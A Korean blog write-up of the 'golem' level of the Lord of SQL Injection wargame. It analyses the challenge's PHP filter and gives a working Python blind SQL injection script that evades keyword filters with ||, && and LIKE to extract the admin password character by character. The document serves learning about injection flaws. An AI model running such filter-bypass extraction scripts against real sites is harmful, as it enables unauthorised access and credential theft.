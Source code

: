 ```yaml
---
title: Lord of SQL Injection Write Up No.11 Golem
date: 2019-08-22 21:16:21
updated: 2019-08-23 10:33:54
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 11번 golem 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`and`, `or`, `substr(`, `=`을 대소문자 구분 없이 포함하지 않고 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

### 필요 배경 지식

#### addslashes

```php
string addslashes ( string $str )
```

- `addslashes` 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.
- php의 `addslashes` 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

#### Blind SQL Injection

4번 orc 문제같은 경우 실제 `pw`값을 알아내야 한다. 이때 화면에 `Hello admin`이라는 문자열이 출력되었는지 안 되었는지 여부에 따라 조작한 SQL문의 조건절이 참인지 거짓인지 알아낼 수 있다.

이처럼 SQL Injection이 가능하고 조작한 SQL문의 조건절이 참인지 거짓인지를 구분할 수 있는 경우 원하는 데이터를 하나씩 알아낼 수 있는데, 이를 Blind SQL Injection 이라고 한다.

### 소스 코드 분석

golem 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, **대소문자 구분 없이** `pw`에 `or`, `and`, `substr(`, `=` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello "`와 `$result[id]` 값을 붙인 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET 방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. `SUBSTRING` 함수, `LIKE` 활용

   ```python
   import urllib.request
   from urllib.parse import quote

   key = ""

   pwlen = 0

   for i in range(1, 20):
       url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
       data = "' || id LIKE 'admin' && length(pw) LIKE '{}'#".format(str(i)) # = 을 못쓰므로 LIKE 로 수정
       print(data)
       data = quote(data)
       re = urllib.request.Request(url + data)

       re.add_header(
           "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
       re.add_header(
           "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
       )

       req = urllib.request.urlopen(re)

       if str(req.read()).find("Hello admin") != -1:
           pwlen = i
           print('pw length : ' + str(pwlen))
           break

   for i in range(1, pwlen + 1):
       for j in range(32, 127):
           if (chr(j) == '%' or chr(j) == '_'): # LIKE 를 사용하므로 와일드카드인 %와 _는 제외
               continue
           url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
           data = "' || id LIKE 'admin' && substring(pw, 1, {}) LIKE '{}'#".format( # or, and 를 ||, && 로 수정, substr( 을 substring(, = 을 LIKE 로 수정
               str(i), key + chr(j))
           print(data)
           data = quote(data)
           re = urllib.request.Request(url + data)

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header(
               "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
           )

           req = urllib.request.urlopen(re)

           if str(req.read()).find("Hello admin") != -1:
               key += chr(j).lower()
               print(key)
               break
   print(key)
   ```

   이러한 코드를 실행하면 결과값으로 `88e3137f` 를 출력한다.
   이를 GET 방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=88e3137f
   ```
